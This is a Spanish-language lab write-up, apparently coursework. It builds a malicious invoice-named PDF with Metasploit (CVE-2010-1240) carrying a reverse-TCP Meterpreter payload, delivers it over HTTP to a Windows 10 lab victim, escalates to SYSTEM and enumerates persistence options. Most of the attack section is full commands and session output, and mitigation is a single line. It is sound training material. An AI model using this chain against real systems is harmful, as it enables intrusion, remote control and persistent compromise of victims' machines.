🔑 Seguridad de Redes — Laboratorios
====================================


# PDF Malicioso — Explotación de Cliente con Metasploit

Generación de un archivo PDF malicioso que embebe un ejecutable mediante Metasploit, entregado a una máquina víctima Windows 10 para obtener una sesión Meterpreter y escalar privilegios a `NT AUTHORITY\SYSTEM`.

## Entorno

| Rol | Host | IP |
|---|---|---|
| Atacante | Kali Linux | `10.13.67.129/24` |
| Víctima | Windows 10 21H2 (Build 19044), hostname `DESKTOP-AK0DJ1A` | `10.13.67.131/24`, gateway `10.13.67.2` |

**IP del atacante (Kali)**



**IP de la víctima (Windows)**



## Generación del PDF malicioso

Módulo `exploit/windows/fileformat/adobe_pdf_embedded_exe` (CVE-2010-1240), embebiendo un payload `windows/meterpreter/reverse_tcp`.

```
msfconsole -q
use exploit/windows/fileformat/adobe_pdf_embedded_exe
set FILENAME factura.pdf
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.13.67.129
set LPORT 4444
exploit
```

**Demostración: generación del archivo `factura.pdf` con el exploit embebido**



**Verificación de la gema `metasploit-payloads` utilizada por el framework**



## Entrega del archivo

`factura.pdf` publicado desde Kali vía servidor HTTP simple para que la víctima lo descargue.

```
curl -I http://10.13.67.129:9090/factura.pdf
```

**Demostración: archivo malicioso disponible en el servidor HTTP**



## Listener (multi/handler)

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.13.67.129
set LPORT 4444
set ExitOnSession false
exploit -j
```

**Demostración: listener activo en background job esperando conexión**



## Ejecución en la víctima

La víctima descarga y abre `factura.pdf` con Adobe Reader. El exploit se ejecuta de forma silenciosa (documento visible en blanco) mientras el payload embebido corre en segundo plano.

**Demostración: víctima abriendo `factura.pdf` en Adobe Reader**



## Sesión obtenida

```
[*] Sending stage (203452 bytes) to 10.13.67.131
[*] Meterpreter session 1 opened (10.13.67.129:4444 -> 10.13.67.131:50077)
```

**Demostración: sesión Meterpreter abierta contra la víctima**



### Reconocimiento inicial

```
meterpreter > sysinfo
meterpreter > getuid
meterpreter > screenshot
```

- **Computer:** DESKTOP-AK0DJ1A
- **OS:** Windows 10 21H2 (Build 19044), x64, es_ES
- **Usuario comprometido:** `DESKTOP-AK0DJ1A\Pruebas`

**Demostración: `sysinfo`, `getuid` y captura de pantalla remota de la víctima**



## Escalamiento de privilegios

```
meterpreter > getsystem
meterpreter > getuid
```

Escalamiento exitoso vía **Named Pipe Impersonation (In Memory/Admin)**, obteniendo privilegios de `NT AUTHORITY\SYSTEM`.

**Demostración: `getsystem` exitoso y verificación de privilegios SYSTEM**



## Post-explotación — reconocimiento de persistencia

```
background
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

**Demostración: inicio del escaneo de exploits locales/persistencia sobre la sesión**



**Demostración: resultados — múltiples vectores de persistencia viables identificados** (`registry`, `startup_folder`, `service`, `scheduled_task`, `bits`, entre otros)



## Resumen del ataque

| Etapa | Resultado |
|---|---|
| Vector de entrada | PDF malicioso (`factura.pdf`) vía ingeniería social |
| Exploit | `windows/fileformat/adobe_pdf_embedded_exe` (CVE-2010-1240) |
| Payload | `windows/meterpreter/reverse_tcp` |
| Acceso inicial | `DESKTOP-AK0DJ1A\Pruebas` |
| Escalamiento | `NT AUTHORITY\SYSTEM` vía Named Pipe Impersonation |
| Persistencia | 12+ vectores viables identificados (registry, servicios, tareas programadas) |

---

## Mitigación

*(ACTUALIZAR EL ADOBE)*
https://chat.deepseek.com/a/chat/s/fdcaa16f-26c6-4b5a-9daf-eef8c0f5148d
